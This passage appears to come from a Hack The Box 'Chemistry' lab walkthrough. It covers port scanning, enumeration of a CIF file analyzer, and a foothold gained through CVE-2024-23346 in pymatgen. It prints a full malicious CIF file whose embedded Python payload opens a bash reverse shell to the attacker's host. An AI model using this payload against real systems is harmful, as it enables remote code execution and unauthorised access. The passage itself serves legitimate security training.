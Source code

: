 ```shell

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 104.38 seconds
```

We have two open ports:
* 22 - SSH
* 5000 - nmap is unable to accurately determine the service

## Enumeration

At `http://10.10.11.38:5000/` we find a file analyzer.

![Chemistry website](/images/HTB-Chemistry/chemistry_website.png)

After registering an account we find a Dashboard where we can upload a CIF file, a sample file is also provided.

![Chemistry Dashboard](/images/HTB-Chemistry/chemistry_dashboard.png)

## Initial Foothold (shell as app)

Searching `Malicious CIF file` on Google we find [CVE-2024-23346](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346) with a PoC [here](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f). Below is the content of our malicious CIF file.

```python
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/{IP}/{PORT} 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

After uploading the file, use the `View` button to execute it.

![malicious CIF file](/images/HTB-Chemistry/bad_CIF.png)

We get a connection on our listener as `app`.

![foothold on Chemistry](/images/HTB-Chemistry/foothold.png)

